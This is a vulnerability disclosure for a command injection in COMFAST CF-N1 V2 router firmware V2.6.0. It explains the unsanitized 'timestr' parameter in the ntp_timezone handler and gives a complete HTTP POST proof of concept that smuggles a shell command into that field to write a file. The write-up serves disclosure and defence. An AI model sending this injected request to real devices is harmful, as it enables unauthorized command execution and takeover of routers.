 

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`
PSlSetting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```



*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
